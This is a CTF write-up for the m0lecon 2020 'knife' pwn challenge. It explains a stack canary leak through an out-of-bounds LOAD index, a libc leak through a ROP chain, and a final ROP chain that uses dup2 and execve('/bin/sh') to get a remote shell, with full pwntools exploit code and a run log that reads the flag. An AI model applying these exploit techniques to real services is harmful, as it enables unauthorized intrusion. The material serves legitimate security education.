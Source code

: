 ```yaml
---
ctf_name: "m0lecon 2020 Teaser"
title:	"knife"
date:	2020-05-24
category: "pwn"
author: "OrsoBruno96, nick0ve"
---
```


## The challenge
ELF 64-bits binary that listens on tcp port waiting for connections. It is not clear what the program should do, but for sure it does not handle it correctly.

```bash
$   checksec knife
[*] '/home/orsobruno96/ctfs/m0lecon/knife'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```


## Bugs
- bound check for the command `LOAD <idx>`. This command lets you read variables on the stack indexed by `idx`. The check on `idx` is not done correctly, you can actually read negative indexes, canary included.
- buffer overflow in the main command. You have control over `rbp+0x8`.


## Exploitation

### Surfing bird
We all hate birds that hide on the stack. We first exploit an out of bound to leak the canary, that doesn't change after `fork()`.


```python
#!/usr/bin/env python3
from pwn import ELF, context, args, gdb, remote, process, log, \
    fit, p64, u64, flat, ui


def recv_bytes_cusu(off):
    if not (-19 < off < 8):
        raise ValueError("Cusu out of bound")
    io.sendline(f"LOAD {off}")
    res = io.recv().strip().ljust(8, b"\x00")
    return u64(res)


if __name__ == "__main__":
    io = start()
    # ui.pause()
    canary = recv_bytes_cusu(-13)
    io.close()

```


### Leaking libc address
Then we reconnect to leak the libc address, using a buffer overflow and a rop
chain. We use the fact that the file descriptor for the connection is always 4.
This is because `fork()` duplicates entirely the process, including the
file descriptor table.


To effectively leak the libc we can read the GOT with a rop chain and use
`sendlen(4, exe.sym.got['write'], size)` to read the answer. We cannot simply use
`puts` or `printf` because standard output is not bound to our connection.

The gadgets used for this rop chain can be found in the executable,
You can leak libc addresses more than once to [find](https://libc.blukat.me/) `libc6_2.27-3ubuntu1_amd64.deb`.

```nasm
    pop rdi ; POP_RDI 0x4014f3
    ret
    ; ...
    pop rsi ; POP_RSI_POP_R15 0x4014f1
    pop r15
    ret
    ; ...
    mov rdx, 0x20; MOV_RDX_20 0x401528
    ret

```



```python
def leak_libc_address(canary):
    payload = dict()
    payload[0] = b"EXIT "
    payload[ebp_8_off] = flat(
        p64(POP_RDI),
        p64(0x4),
        p64(POP_RSI_POP_R15),
        p64(exe.sym.got['write']),
        p64(0x101010101010),
        p64(MOV_RDX_20),
        p64(exe.sym.sendlen),
    )
    payload[canary_off] = p64(canary)
    prettify_shellcode(fit(payload))
    io.sendline(fit(payload))
    res = u64(io.recv()[:8].ljust(8, b"\x00"))
    log.info(f"write addr: {res:#08x}")
    libc.address = res - libc.sym.write
    log.info(f"libc addr: {libc.address:#08x}")
```



### Drop a shell
Now we connect a third time for the exploit. We know where libc is so
we can rop chain `execve("/bin/sh", 0, 0)`, but we have to bind stdin and stdout
to our socket. This is done via `dup2`,


```python
def execve(canary):
    """
    We want to build a rop to call the following
    C code:
    close(0);  // close stdin
    close(1);  // close stdout
    dup2(4, 0);  // bind stdin to socket
    dup2(4, 1);  // bind stout to socket
    execve("/bin/sh", 0, 0);  // pwn3d
    """
    # NOP are for stack alignment.
    rop = [
        POP_RDI, 0, NOP, libc.sym.close,
        POP_RDI, 1, NOP, libc.sym.close,
        POP_RDI, 4, libc.address + libc_POP_RSI, 0, libc.sym.dup2,
        POP_RDI, 4, libc.address + libc_POP_RSI, 1, libc.sym.dup2,
        POP_RDI, next(libc.search(b"/bin/sh")), libc.address + libc_POP_RSI,
        0, libc.address + libc_POP_RDX, 0, libc.sym.execve
    ]
    rop = b"".join(map(p64, rop))
    payload = dict()
    payload[0] = b"EXIT "
    payload[canary_off] = p64(canary)
    payload[ebp_8_off] = rop
    io.sendline(fit(payload))
```


## Pwning

```python
if __name__ == "__main__":
    io = start()
    # ui.pause()
    canary = recv_bytes_cusu(-13)
    io.close()
    io = start()
    # ui.pause()
    leak_libc_address(canary)
    io.close()
    io = start()
    ui.pause()
    execve(canary)
    io.interactive()
```


```bash
$   ./pwn_knife.py REMOTE
...
[*] write addr: 0x7fcd7d63c140
[*] libc addr: 0x7fcd7d52c000
[*] Switching to interactive mode
$  ls
chall
config.txt
flag.txt
$  cat flag.txt
ptm{f0rk5_ar3n7_g00d_f0r_cnr13s}
```
